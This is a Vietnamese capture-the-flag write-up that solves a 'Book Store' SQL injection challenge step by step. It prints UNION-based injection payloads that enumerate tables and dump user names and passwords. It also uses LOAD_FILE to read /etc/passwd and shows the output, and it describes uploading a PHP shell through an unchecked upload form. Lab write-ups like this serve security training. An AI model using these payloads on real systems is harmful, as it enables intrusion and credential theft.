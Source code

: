 # The Book Store

1.	Des:
-	Flag được giấu ở đường dẫn /flagxxx.txt 
-	Bài này là một bài SQLi 

2.	Solution:
-	Ta chọn một sản phẩm bất kì rồi vào burp chuyển request chứa sản phẩm vừa chọn đến Repeater

![1](./images/1.png)

-	Ta thử nhập một kí tự đặc biệt như ‘ hoặc “ để xem có lỗi hay không
payload: GET /description.php?ID=NEW-2'&category=new HTTP/1.2

![2](./images/2.png) ta đoán đây là một lỗ hổng sql!

-	Xác định các cột trong db bằng order by 
payload: ID=NEW-2' ORDER BY 16-- -  

![3](./images/3.png)

payload: ID=NEW-2' ORDER BY 15-- -  
![4](./images/4.png) Vậy có 15 cột 

-	Bây giờ ta sử dụng UNION để bắt đầu lấy thông tin 
payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- -&category=new

giúp ta xác định được các cột trả về ở vị trí nào.

![5](./images/5.png)

-	Ta kiểm tra xem version của db trong bài ctf này là loại nào để ta có thể sử dụng information.schema

![6](./images/6.png)

version MariaDB nên ta sẽ khai thác bằng cách truy cập vào bảng information_schema

-	Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,unhex(hex(table_name)),13,14,15 FROM information_schema.tables WHERE table_schema=database()-- -&category=new 

![6](./images/7.png)

Việc ta sử dụng unhex(hex(table_name)) nhằm mục đích giúp hệ thống hiểu dữ liệu ta truyền vào dưới dạng hex và được trả ra dưới dạng text để ta đọc
Trong MariaDB có 1 cột table_schema chứa tên database trong khi db infomation_schema lại trả về rất nhiều bảng khác của hệ thống nên ta cần thêm điều kiện table_schema=database() để trả về đúng cột db ta đang cần
Ta thấy có 5 cột dược trả về trong đó có bảng users có thể chứa dữ liệu của admin

-	Tiếp tục lấy dữ liệu từng bảng users xem có bao nhiêu cột trong bảng.
Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,group_concat(unhex(hex(column_name))),13,14,15 FROM information_schema.columns WHERE table_name='users'

![6](./images/8.png)

Ta thấy kết quả trả về có 2 cột ta cần quan tâm là cột UserName và cột Password

-	Payload: ID=0' UNION SELECT 1,group_concat(UserName),group_concat(Password),4,5,6,7,8,9,10,11,12,13,14,15 FROM users-- -&category=new 

![6](./images/9.png)

Để nhìn rõ kết quả ta paste link lên browse

![6](./images/10.png)

Tài khoản  username = admin && password = 1234567890 

-	Đăng nhập thử vào admin xem có điều gì chứa flag ko =))
-	Check thử thư mục /etc/passwd
payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/etc/passwd'),13,14,15-- -&category=new 
Ta được:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin (user chạy web, thư mục home là /var/www có thể là thư mục gốc của web )
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false

-	Lợi dụng việc upload file không kiểm tra tên, loại, nội dung và kích thước tệp giúp ta có thể tải một file lệnh shell lên trên hệ thống ta tạo file shell có tên path.php nội dung như sau:

![1](./images/11.png)
File shell này giúp tìm các file có tên bắt đầu là flag và kết thúc với đuôi .txt và được tìm từ thư mục gốc trên hệ thống, sau đó kết quả được ghi vào file /www/flag_paths.txt  (file flag_paths.txt được lưu trong thư mục web)

-	Upload file lên và thử các đường dẫn http://<..> /uploads/path.php hoặc /storage/path.php 
Loay hoay một hồi thì mình chợt nhận ra rằng file upload là up ảnh minh họa =)), lúc này mình nghĩ là liệu có mở được file ảnh ko. Click chuột trái vào ảnh và chọn được mở sang một tap khác 

![1](./images/12.png)
Vậy là ta đã có đường dẫn để mở file path.php

Giờ chúng ta đã có file flag_paths.txt tìm đường dẫn flag :  
/flagR3LgR.txt
Payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/flagR3LgR.txt'),13,14,15-- -&category=new

![1](./images/13.png)

- CHH{Tr41nin9_N4m_B0okSt0r3_f16b8267ba93b3329ff5ae377c3134e3}